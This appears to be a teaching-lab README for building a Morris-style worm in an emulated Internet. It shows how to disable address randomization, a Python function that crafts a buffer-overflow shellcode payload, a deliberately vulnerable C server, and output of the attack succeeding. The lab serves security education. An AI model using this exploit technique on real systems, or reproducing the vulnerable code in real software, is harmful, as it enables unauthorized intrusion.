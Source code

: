 # The Morris Worm Lab

The Morris worm (November 1988) was one of the oldest computer worms distributed via the Internet, and the first to gain significant mainstream media attention [1]. While it is old, the techniques used by most worms today are still the same, such as the WannaCry ransomware in 2017. They involve two main parts: attack and self-duplication. The attack part exploits a vulnerability (or a few of them), so a worm can get entry to another computer. The self-duplication part is to send a copy of itself to the compromised machine, and then launch the attack from there. A detailed analysis of the Morris worm was given by Spafford [2]. The goal of this lab is to help students gain a better understanding of the behavior of worms, by writing a simple worm and testing it in a contained environment (an Internet emulator). Although the title of this lab is called Morris worm, the underneath technique used is quite generic. We have broken down the technique into several tasks, so students can build the worm incrementally. For testing, we built two emulated Internets, a small one and a larger one. Students can release their worms in each of these Internets, and see how their worms spread across the entire emulated Internet. The lab covers the following topics:

- Buffer-overflow attack
- Worm’s self-duplication and propagation behavior
- The SEED Internet emulator
- Network tools

## Task 1: Attack the First Target

The worm exploit the Buffer-overflow vulnerability to allow the worm to run on the target machine.

### Step 1: Disable the Address Randomization

> Note: This kernel parameter is global, so once we turn it off from the host machine, all the containers are affected.

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0 
```

All the non-router containers in the emulator run the **same vulnerable server**. With the address randomization disabled, all the servers will have the identical parameters, the addresses of the buffer and the value of the frame pointers will be the same across all the containers. The attack part is the same as the Level-1 task in the Buffer-Overflow Lab, so if students have worked on that lab before, they can reuse the code from that lab here. We will not duplicate the instruction in this lab. Students can read the lab description of the Buffer-Overflow Lab (server version) to learn the setup of the server and the guidelines on the attack.

### Step 2: Generate the malicious payload for the buffer-overflow attack

#### Attack Idea

![](assets/bof_shellcode_injection.png)

#### 2.1. send a hello message to the target server for getting the address of the buffer and the frame pointer. The server will print out the address of the buffer and the frame pointer. The server will also print out the size of the input message. The address of the buffer and the frame pointer are printed in hexadecimal format.

```bash
root@7e27f0bf5973:/# echo hello | nc -w2 10.151.0.71 9090
as151h-host_0-10.151.0.71           | Starting stack
as151h-host_0-10.151.0.71           | Input size: 6
as151h-host_0-10.151.0.71           | Frame Pointer (ebp) inside bof():  0xffffd5e8
as151h-host_0-10.151.0.71           | Buffer's address inside bof():     0xffffd578
as151h-host_0-10.151.0.71           | ==== Returned Properly ====
```

#### 2.2 Craft the malicious payload for injecting the shellcode into the target server.

code snippet:

```python
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   base_pointer   = 0xffffd5e8
   buffer_address = 0xffffd578

   offset = base_pointer - buffer_address + 4
   ret    = buffer_address + 500 - len(shellcode)

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

Buffer Overflow Vulnerability:

```c
int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];

    int length = fread(str, sizeof(char), 517, stdin);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size
// 1000 (approximately) between main's and bof's stack frames.
// The function itself does not do anything.
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

#### 2.3. Run the attack

```bash
root@f2c7a61d156d:~# ./worm.py
The worm has arrived on this host ^_^
**********************************
>>>>> Attacking 10.151.0.71 <<<<<
**********************************
PING 1.2.3.4 (1.2.3.4) 56(84) bytes of data.
```

Server Output:

```bash
as151h-host_0-10.151.0.71           | Starting stack
as151h-host_0-10.151.0.71           | (^_^) Shellcode is running (^_^)
```

#### DEMO

https://github.com/user-attachments/assets/f16e8541-c8a8-4d06-85eb-18a65f79716b
